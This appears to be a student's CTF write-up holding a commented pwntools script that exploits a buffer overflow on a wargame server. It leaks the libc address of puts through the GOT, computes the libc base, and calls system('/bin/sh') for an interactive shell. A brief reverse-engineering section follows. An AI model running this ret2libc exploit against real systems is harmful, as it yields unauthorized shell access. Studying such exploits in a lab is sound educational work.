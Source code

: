 Script/Command used
------------------
```
p = remote("plsdonthaq.me", 6004)

# This payload will call the function puts, with its argument being the GOT entry
# for puts, and will return to the main function.
payload = (
    p32(0x80483b0) + # address of puts function
    p32(0x8048539) + # address of main function
    p32(0x804a014) # address of GOT entry for puts
)

# We then send this payload at offset 12, where the return address is located.
p.sendline(flat({
 12: payload
}))

# The program now prints the libc address of puts, which we extract from the first
# four bytes of output. Also since it is a byte string representing an address, we
# want to unpack it into an int.
p.recvuntil("Gimme data: \n")
libc_leak = u32(p.recvline()[:4])

# Using this leaked libc address for puts, we find the libc offset for puts and
# subtract it from the leak to get the libc base.
libc_base = libc_leak - 0x0005fca0

# Since we are executing system('/bin/sh'), we need the address of the system
# function and the address of the string '/bin/sh', adding both of these to the
# libc base.
system = libc_base + 0x0003ada0
bin_sh = libc_base + 0x0015ba0b

# Our payload then calls the function system with the argument '/bin/sh', and it
# doesn't return so we put anything in this slot.
payload = (
    p32(system) + # address of system function
    b"XXXX" + # any return address (since system doesn't return)
    p32(bin_sh) # address of string '/bin/sh'
)

# We then send this payload at the offset of the return address.
p.sendline(flat({
 12: payload
}))

# Now we should have shell access and can get the flag.
p.interactive()
```

re challenge
=============
General overview of problems faced
-------------------------------------
To reverse engineer this assembly, I simply focused on one box at a time, working my way through the program until I had a decent idea of what it did.
